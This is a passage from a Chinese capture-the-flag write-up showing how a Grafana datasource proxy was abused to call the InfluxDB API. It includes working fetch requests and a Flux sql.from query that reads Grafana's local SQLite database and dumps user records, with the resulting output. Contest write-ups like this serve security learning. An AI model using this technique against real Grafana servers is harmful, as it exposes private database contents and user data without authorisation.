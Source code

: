 Swagger用户本题一直在被坑啊，用Swagger发的请求有各种奇怪错误。datasource_proxy_route参数根本不需要URL编码，直接接上去就是了。

```js
fetch('https://prob04-xr3x8sgx.geekgame.pku.edu.cn/api/datasources/proxy/uid/bf04aru9rasxsb/health', {
	method: 'GET',
	headers: {
		// 'X-DS-Authorization': 'Basic ' + btoa('admin:password'), // NG
		'X-DS-Authorization': 'Token token',
	},
	credentials: 'include',
})
```

能调用InfluxDB API后，抄一下InfluxDB API文档[Query data](https://docs.influxdata.com/influxdb/v2/api/v2/#operation/PostQuery)，然后抄一下Flux文档[Query SQLite](https://docs.influxdata.com/flux/v0/query-data/sql/sqlite/)一节提供的示例。

```js
fetch('https://prob04-xr3x8sgx.geekgame.pku.edu.cn/api/datasources/proxy/uid/bf04aru9rasxsb/api/v2/query?org=org', {
	method: 'POST',
	headers: {
		'X-DS-Authorization': 'Token token',
		'Content-Type': 'application/vnd.flux',
		Accept: 'application/csv',
	},
	body: `
import "sql"

sql.from(
	driverName: "sqlite3",
	dataSourceName: "file:/var/lib/grafana/grafana.db?cache=shared&mode=ro",
	query: "select id, email from user",
)
`,
	credentials: 'include',
})
```

```csv
,result,table,id,email
,_result,0,1,666c61677b70523176316c4567652d655363616c6154494f6e2d574974482d4c4f56336c792d496e466c557864627d0a
,_result,0,2,geekgame@example.com

```

查询语句`select id, email from user`是经过多次尝试得出的。Flux对返回数据格式似乎有严格要求，查询`select 1+1`会返回`panic: column 1+1:string is not of type int`，查询`select * from user`会返回`panic: column is_service_account:int is not of type bool`等各种奇怪错误。



## 团结引擎
